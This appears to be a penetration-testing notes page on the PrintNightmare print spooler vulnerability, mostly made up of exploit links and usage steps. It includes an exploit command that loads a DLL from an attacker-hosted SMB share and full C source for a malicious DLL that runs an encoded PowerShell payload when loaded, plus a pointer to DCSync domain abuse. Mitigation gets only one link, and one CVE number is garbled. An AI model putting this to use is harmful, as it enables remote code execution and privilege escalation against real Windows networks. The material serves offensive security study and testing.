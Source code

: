# PrintNightmare

**CVE-2021-16751, CVE-2021-34527**




## Exploits



### C++

RCE (fork of the original repo):

* [https://github.com/afwu/PrintNightmare](https://github.com/afwu/PrintNightmare)

LPE:

* [https://github.com/hlldz/CVE-2021-1675-LPE](https://github.com/hlldz/CVE-2021-1675-LPE)



### Python

RCE:

* [https://github.com/cube0x0/CVE-2021-1675/blob/main/CVE-2021-1675.py](https://github.com/cube0x0/CVE-2021-1675/blob/main/CVE-2021-1675.py)


#### Usage

1. Prepare [an SMB share with anonymous authentication](/pentest/infrastructure/ad/smb.md#smb-share-with-null-authentication) allowed:
2. Generate an evil DLL: *msfvenom* / `adduser` ([1](https://github.com/newsoft/adduser), [2](https://github.com/calebstewart/CVE-2021-1675/blob/main/nightmare-dll/nightmare/dllmain.cpp)) / custom (see example below, `pwn.c`).
3. Run the exploit:

```
$ python CVE-2021-1675.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.11 '\\10.10.13.37\share\pwn.dll'
```

{% code title="pwn.c" %}
```c
// x86_64-w64-mingw32-gcc pwn.c -o pwn.dll -shared

#include <windows.h>
#include <stdlib.h>
#include <stdio.h>

// Default function that is executed when the DLL is loaded
void Entry() {
    system("powershell -enc <BASE64_PWSH_CODE>");
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
  switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
      CreateThread(0, 0, (LPTHREAD_START_ROUTINE)Entry, 0, 0, 0);
      break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
      break;
  }
  return TRUE;
}
```
{% endcode %}

An example on configuring and abusing RBCD on a DC and DCSyncing the domain 👉🏻 [here](https://snovvcrash.rocks/2021/06/30/leveraging-printnightmare-to-abuse-rbcd.html).



### C\#

RCE + LPE:

* [https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare](https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare)



### PowerShell

LPE:

* [https://github.com/calebstewart/CVE-2021-1675](https://github.com/calebstewart/CVE-2021-1675)




## Reproducibility

Depending on the state of a user's access token (elevated / non-elevated) whose account one's impersonating when making RPC calls to `RpcAddPrinterDriverEx`, the attack may succeed or fail. On the following diagram (by [@StanHacked](https://twitter.com/StanHacked/status/1410929974358515719/photo/1)) there're some conditions that can affect the token state:

![](/.gitbook/assets/004.png)




## Mitigation

* [https://github.com/LaresLLC/CVE-2021-1675](https://github.com/LaresLLC/CVE-2021-1675)
